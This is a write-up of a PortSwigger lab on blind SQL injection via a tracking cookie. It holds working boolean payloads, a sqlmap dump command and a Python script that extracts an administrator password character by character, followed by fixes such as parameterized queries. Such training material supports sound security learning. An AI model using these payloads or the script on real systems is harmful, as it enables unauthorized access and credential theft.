





**Category:** SQL Injection  
**Difficulty:** Practitioner  
**Status:** ✅ Solved  
**Lab Link:** [PortSwigger Lab](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

---

## Objective

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

## Background

Blind SQL injection is a web security vulnerability that allows an attacker to interfere with database queries without seeing the query results directly. Instead, the attacker infers information by observing the application's behavior (e.g., different responses for true/false conditions). This vulnerability occurs when user input is concatenated into SQL queries without proper sanitization, and error messages or query results are hidden from the user.

---

## Things to Know

Before attempting this lab, understand these SQL functions:

| Function | Description | Example |
|----------|-------------|---------|
| `SUBSTRING(string, start, length)` | Extracts a portion of a string. **Note:** Start index begins at 1 (not 0) | `SUBSTRING('hello', 1, 1)` → `'h'` |
| `ASCII(character)` | Returns the ASCII code of a character | `ASCII('A')` → `65` |
| `LENGTH(string)` | Returns the length of a string | `LENGTH('hello')` → `5` |

### Important Notes

- **`'a'` (literal string)**: `'a'` is a constant string, not a column. The subquery `(SELECT 'a' FROM users)` returns the value `'a'` for every row in the `users` table. It does **not** try to select a column named `a`.

- **`LIMIT 1`**: Ensures the subquery returns only one row, even if the `users` table has multiple rows. This prevents errors like "subquery returns more than one row" and makes the comparison safe and predictable.

- **ASCII Printable Characters**: Character codes 32-127 (or 33-126 for printable non-space characters). Reference: [ASCII Code Table](https://www.ascii-code.com/)

---

## My Approach

### Step 1: Set Up Burp Suite

1. Open Burp Suite → Proxy → Open embedded browser
2. Turn on intercept
3. Refresh the page
4. Right-click on the GET request → Send to Repeater



### Step 2: Confirm the Vulnerability

In Burp Repeater, I observed that the response contains "Welcome back!" when the tracking cookie is valid:



I tested boolean-based conditions to confirm injection:

| Payload | Result |
|---------|--------|
| `TrackingId=u5YD3PapBcR4lN3e7Tj4' AND '1'='1` | ✅ "Welcome back!" appears (TRUE) |
| `TrackingId=u5YD3PapBcR4lN3e7Tj4' AND '1'='2` | ❌ No "Welcome back!" (FALSE) |



### Step 3: Enumerate Database Structure

**Confirm the `users` table exists:**
```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4' AND (SELECT 'a' FROM users LIMIT 1) = 'a
```
Result: ✅ "Welcome back!" appears → Table exists

**Confirm `administrator` user exists:**
```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4' AND (SELECT 'a' FROM users WHERE username='administrator') = 'a
```
Result: ✅ "Welcome back!" appears → User exists

### Step 4: Find Password Length

I used binary search to determine the password length:

```
AND (SELECT LENGTH(password) FROM users WHERE username='administrator') > 8--   
✅ TRUE
AND (SELECT LENGTH(password) FROM users WHERE username='administrator') > 12--  ✅ TRUE
AND (SELECT LENGTH(password) FROM users WHERE username='administrator') > 16--  ✅ TRUE
AND (SELECT LENGTH(password) FROM users WHERE username='administrator') > 20-- ❌ FALSE
AND (SELECT LENGTH(password) FROM users WHERE username='administrator') = 20--   ✅ TRUE
```

**Password length: 20 characters**

### Step 5: Extract Password Character by Character

I used `ASCII()` + `SUBSTRING()` with binary search to extract each character:

**First character:**
```
AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)) > 109--   ✅ TRUE
AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)) > 118--   ✅ TRUE
AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)) > 122--   ❌ FALSE
AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)) > 120--   ❌ FALSE
AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)) = 120--   ✅ TRUE
```

**First character: `x` (ASCII 120)**



I repeated this process for all 20 characters using python code.

---

## Alternative Methods

### Method 1: Manual Extraction
As demonstrated above—time-consuming but educational for understanding the attack mechanics.

### Method 2: SQLMap Automation

**Prepared Request File (`sqlmap.txt`):**
```http
GET / HTTP/1.1
Host: <LAB-ID>.web-security-academy.net
Cookie: TrackingId=FA*; session=Vwcl
User-Agent: Mozilla/5.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Connection: close
```

> [!NOTE]
> - Use `HTTP/1.1` (required for sqlmap)
> - Add `*` after the cookie value to mark the injection point
> - Use `--force-ssl` to force HTTPS

**SQLMap Command:**
```bash
sqlmap -r sqlmap.txt \
       --dbms=PostgreSQL \
       --technique=B \
       --string="Welcome back!" \
       -T users \
       -C "username,password" \
       --where="username='administrator'" \
       --dump \
       --level 1 \
       --threads=10 \
       --no-cast \
       --force-ssl \
       --batch
```

**SQLMap Output:**
```
Database: public
Table: users
[1 entry]
+---------------+----------------------+
| username      | password             |
+---------------+----------------------+
| administrator | xhlk8ubqqoprpb5sfu2z |
+---------------+----------------------+
```

### Method 3: Python Script (Binary Search Automation)

```python
import requests

url = "" #past the lab URL for like this (https://<LAB-ID>.web-security-academy.net)

SESSION = ""   # paste your session value here
TRACKING_BASE = ""  # paste your original TrackingId value here

password = ""

for position in range(1, 21):
    low, high = 32, 126

    while low <= high:
        mid = (low + high) // 2

        payload = f"{TRACKING_BASE}' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='administrator'),{position},1)) > {mid}--"

        cookies = {
            "TrackingId": payload,
            "session": SESSION
        }

        response = requests.get(url, cookies=cookies)

        if "Welcome back" in response.text:
            low = mid + 1
        else:
            high = mid - 1

    password += chr(low)
    print(f"[+] Position {position}: {chr(low)} → current: {password}")

print(f"\n[*] Full password: {password}")
```

**Script Output:**
```bash
[+] Position 1: x → current: x
[+] Position 2: h → current: xh
[+] Position 3: l → current: xhl
...
[+] Position 20: z → current: xhlk8ubqqoprpb5sfu2z

[*] Full password: xhlk8ubqqoprpb5sfu2z
```



### Step 6: Log In

I navigated to **My Account** and logged in with:
- **Username:** `administrator`
- **Password:** `xhlk8ubqqoprpb5sfu2z`

---

## Payload Used

### Vulnerability Confirmation
```URL
Cookie: TrackingId=<ID>' AND '1'='1
Cookie: TrackingId=<ID>' AND '1'='2
```

### Table Existence Check
```URL
Cookie: TrackingId=<ID>' AND (SELECT 'a' FROM users LIMIT 1) = 'a
```

### User Existence Check
```URL
Cookie: TrackingId=<ID>' AND (SELECT 'a' FROM users WHERE username='administrator') = 'a
```

### Password Length Enumeration
```URL
Cookie: TrackingId=<ID>' AND (SELECT LENGTH(password) FROM users WHERE username='administrator') > 16
Cookie: TrackingId=<ID>' AND (SELECT LENGTH(password) FROM users WHERE username='administrator') = 20
```

### Password Character Extraction (Example: First Character)
```URL
Cookie: TrackingId=<ID>' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)) > 109--
Cookie: TrackingId=<ID>' AND ASCII(SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)) = 120--
```

---

## Why It Worked

The application executes a SQL query using the tracking cookie value without proper sanitization. While the query results aren't displayed, the application's behavior changes based on whether the query returns rows:

| Condition | Application Response |
|-----------|---------------------|
| Query returns rows | "Welcome back!" message appears |
| Query returns no rows | No "Welcome back!" message |

### Attack Breakdown

| Component                     | Purpose                                                                  |
| ----------------------------- | ------------------------------------------------------------------------ |
| `'`                           | Closes the original string parameter in the cookie value                 |
| `AND ...`                     | Adds a boolean condition that evaluates to TRUE or FALSE                 |
| `SUBSTRING(..., position, 1)` | Extracts one character at a time from the password                       |
| `ASCII(...)`                  | Converts the character to its numeric ASCII code for comparison          |
| `> mid`                       | Binary search comparison—TRUE if character code is greater than midpoint |


The attack succeeded because:

1. **Injection point identified** (tracking cookie is concatenated into SQL query)
2. **Boolean-based detection works** ("Welcome back!" indicates TRUE condition)
3. **Systematic extraction** (binary search reduces requests per character from ~95 to ~7)
4. **No rate limiting** (the lab doesn't block repeated requests)

---

## How to Fix It

The only reliable defense is to **use parameterized queries (prepared statements)**. This ensures user input is treated as data, not executable code.

See [Lab 1: SQL Injection Fundamentals](01.%20SQL%20injection%20vulnerability%20in%20WHERE%20clause%20allowing%20retrieval%20of%20hidden%20data.md) for language-specific examples.

### Additional Recommendations

| Defense | Description |
|---------|-------------|
| **Parameterized Queries** | Always use placeholders instead of concatenating user input (including cookies!) |
| **Input Validation** | Validate cookie format and reject unexpected values |
| **Error Handling** | Never expose database errors or different behaviors based on query results |
| **Rate Limiting** | Implement request throttling to slow down automated attacks |
| **Web Application Firewall (WAF)** | Deploy a WAF to detect and block SQL injection patterns |

See [OWASP Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection) for more information.

---

## Key Takeaway

> Blind SQL injection requires patience and systematic extraction—you can't see query results directly, but you can infer data through boolean-based responses. Binary search dramatically reduces the number of requests needed (from ~95 per character to ~7). Always use **parameterized queries** for ALL user input, including cookies, headers, and hidden fields. Automation tools like sqlmap or custom Python scripts are essential for real-world engagements, but understanding the manual process is crucial for learning. Remember: defense in depth is key—combine parameterized queries with input validation, error handling, and rate limiting.
